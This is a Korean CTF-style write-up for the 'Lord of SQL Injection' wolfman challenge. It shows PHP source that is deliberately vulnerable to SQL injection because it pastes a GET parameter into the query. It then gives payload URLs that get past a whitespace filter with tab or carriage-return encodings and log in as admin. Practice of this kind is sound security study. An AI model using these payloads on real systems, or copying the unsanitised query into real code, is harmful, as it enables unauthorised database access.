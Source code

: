 Lord of SQL Injection No.5 - wolfman
```

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~");
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";
  if($result['id'] == 'admin') solve("wolfman");
  highlight_file(__FILE__);
?>
```
위 문제에서 알 수 있는 것
preg_match로 인해 . ()가 $_GET[pw]에 들어 있으면 No Hack ~_~이 뜨면서 문제풀이에 실패하게 된다.
preg_match로 인해 공백이 $_GET[pw]에 들어 있으면 No whitespace ~_~가 뜨면서 문제풀이에 실패하게 된다.
id값에는 guest라는 값이 고정되어 있으므로 pw에 값을 넣어 조작해야한다.
DB에 저장된 id가 admin이면 문제가 풀리게 된다.

문제 풀이 법
1) 공백 우회
스페이스바 %20 대신 Tab(%09),Carrage Return(%0d) 등을 이용한다.
los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw=123'or%09id='admin'--%09-
los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw=123'or%0did='admin'--%0d-
